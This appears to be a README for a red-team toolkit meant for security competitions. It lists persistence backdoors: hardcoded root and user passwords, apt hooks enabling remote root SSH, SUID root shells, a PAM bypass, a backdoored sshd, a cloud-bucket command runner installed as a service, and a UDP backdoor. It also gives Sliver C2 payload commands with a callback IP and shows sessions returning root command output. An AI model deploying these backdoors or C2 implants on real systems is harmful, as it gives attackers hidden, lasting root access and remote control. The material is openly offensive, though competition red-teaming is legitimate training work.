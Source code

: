 A collection of scripts that would be useful in during certain security contests.

!! Make sure to change the IP in Beachhead/watershell.sh to your IP if you dont want it going to a team server as well as run `python3 -m http.server 80` while in the UnnamedSecurityContest root

!! Make sure to alos change the IP in Beachhed/sliver.sh to be your IP if you dont want it going to a team server. You will also need to put a payload in Beachhead_source/sliverPayloads.

!! Change the ip on phpUDP as well

The Private SSH key loaded will be distributed through another channel.

!! Beachhead - Install many access points - requires root access
 * adduser - Creates user scoring:redteam123
 * aptAPT - Installs several apt pre-execution scripts.  
   * changes the root password to redteam123
   * Modifies /etc/sshd/sshd_config to allow password login
   * Modifies /etc/sshd/sshd_config to allow remote root login
   * Loads a known SSH pubkey into authorized keys.
 * mksuidshell - Compiles a SUID shell and places it as /usr/bin/sushi, /usr/bin/bash, nologin, sh
 * PAMswap - Copies the PAM permit object over the deny object making failed logins work.
 * phonehome - Installs a debian package, which installs a go binary as a systemd service that runs whatever command is posted in a google cloud bucket.
 * watershell - Runs a watershell backdoor on port 1337
 * suid - Creats a bin at /usr/bin/croissant with suid giving root shell
 * itablesflush - Creates a cron to flush IP tables
 * hidetraffic - Patches severals bins to hide red team traffic

!! Compiled Binaries
  * sshd - backdoored sshd daemon.  remote root login always allowed, password "redteam" accepted for any user.
  * ssh - client to activate a secondary backdoor which doesn't log logins.  https://github.com/Psmths/openssh-backdoor
  * sushi - precompiled suid shell
  * suidrun - runs the command pass as root (suitable for webshells) e.g. suidrun /bin/touch /tmp/win
  * watershell - a udp backdoor that bypasses iptables 

!! Runners - Utilities to execute other scripts
  * attack_linux_w_su.py - Connects to a box with one user, su's to another user, executes all scripts in a tar.gz.  The scripts should be within a directory named 'remote'.  Requires python paramiko.  Requires a remote.sh to execute all the scripts.
  * attack_linux_w_sudo.py - Connects to a box with one user, executes all scripts in a tar.gz using sudo.  The scripts should be within a directory named 'remote'.  Requires python paramiko.
  * attack_master.py Loops through a file executing each command
  * a list of commands to be executed.  likely calling attack_linux...

!! Sliver Commands
  * `generate --mtls 10.10.1.34 --save /root/UnnamedSecurityContest/Beachhead_source/sliverPayloads/ --os linux`
  * `generate beacon --mtls 10.10.1.34 --save /root/UnnamedSecurityContest/Beachhead_source/sliverPayloads/ --os linux`

!! Watershell Commands
  * ```
  ┌──(root㉿dragon)-[~/UnnamedSecurityContest/Beachhead_source/watershell-tcp]
  └─# python3 watershell-cli.py -t 10.10.1.36 -p 1337 -c id
  Connecting to Watershell on ('10.10.1.36', 1337)...
  Connected!
  uid=0(root) gid=0(root) groups=0(root)
  ```
!! PHP UDP Commands
  * start a net cat listener
  * ```
  ┌──(root㉿dragon)-[~/UnnamedSecurityContest/Beachhead]
└─# nc -u IP 10000 OR 32746
ip 10.10.1.34
10.10.1.34
port 9001
9001
status
IP: 10.10.1.34 Port: 9001
execute

```